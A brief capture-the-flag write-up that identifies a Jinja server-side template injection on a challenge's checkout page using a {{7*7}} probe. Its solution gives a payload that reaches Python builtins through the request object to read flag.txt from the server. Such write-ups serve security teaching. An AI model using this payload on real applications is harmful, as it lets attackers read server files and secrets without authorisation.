


The website simply renders our input to the checkout page.
Entering `{{7*7}}` confirms that we have an SSTI vulnerability, and it's likely using Jinja.



## Solution

To solve the challenge, we'll use the SSTI vulnerability to read the flag.

```
{{ request.__class__._load_form_data.__globals__.__builtins__.open("flag.txt").read() }}
```



> We were given the source code for this challenge, so we could have discovered the SSTI from there as well.